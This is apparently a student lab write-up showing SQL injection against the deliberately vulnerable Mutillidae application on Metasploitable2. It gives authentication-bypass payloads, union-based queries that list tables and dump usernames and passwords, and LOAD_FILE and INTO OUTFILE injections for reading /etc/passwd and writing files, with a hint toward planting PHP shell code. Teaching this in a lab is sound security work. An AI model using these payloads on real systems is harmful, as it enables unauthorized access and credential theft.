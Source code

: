 ## sqlinjection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/0f442b99-cec1-46ab-b92a-fd935c14d155)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser. 
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/cda80948-b221-48d1-8b8e-152e1b3575a1)
Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/85d81817-a933-4560-973d-aa018349e396)
Click on the menu Login/Register and register for an account
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/6170c779-8ebf-49cf-9db3-8ba0ae6c594d)
Click on the link “Please register here”
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/148c315d-7fd2-44cf-8701-3b94831734ea)
Click on “Create Account” to display the following page:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/eef32cd5-9b99-4baf-968d-8bc745519c0e)

The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/de2a8dfa-0474-4407-b55c-2c42b0e5fde7)

Click “Login”. The logged in page will show as below:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/56457512-0052-48b9-808d-7643da6e0e31)

## Bypassing logi field
The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”
Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/a5e688da-83c2-449c-bc5b-22cea6ab3c5b)

Click the login button and you will see it enter into the administrator page
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/3238da4a-7109-47c7-943e-d3545180e54d)

## Union-based SQL Injection

UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/582cd825-53cf-402d-895f-75ba26e78067)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/0826dcd3-9aff-4a9b-bc84-d44e29faa997)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/b7f22171-e0cc-4b10-aebf-3af394c228f1)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/c3544ccf-30d3-42e3-8df1-3ce7f687d8b0)

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/d81b075d-2b03-4322-9b74-28781aa5bdb4)
From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/2b625399-4b20-4bb1-a2ae-1241fb5c2736)
Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: 
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/71e0be6b-c248-4186-8149-a09da980c988)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/c6feb4c5-aec2-47b5-8adc-5b0060b69dfd)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/f5482603-0d36-4349-9444-628dc0735ed9)
As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/95625ee8-d07e-45f2-8ffe-e8727d69c683)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/f94c667b-d550-4386-a842-a84c3e1f7a90)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/92939051-bb61-4163-87dd-c66c7b757926)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/c28884d3-84e5-4d7c-8dfb-bb3856bd28c7)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/d3390b08-a9ae-474c-98dd-1a058de73430)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/d8f7d2be-5816-438f-852f-39c7a4ad6daa)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/507a8789-fcdc-4f66-89d0-34400df6eb25)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/7e5198c8-3c20-4437-bc2c-e9596fb227e9)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/1db9ea12-c0eb-4709-91ca-4323365b2608)
Reading and writing files on the web-server We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/karthika28112004/sqlinjection/assets/128035087/69e225a5-35b7-4cf4-ad31-4a668d3a5725)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).


## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
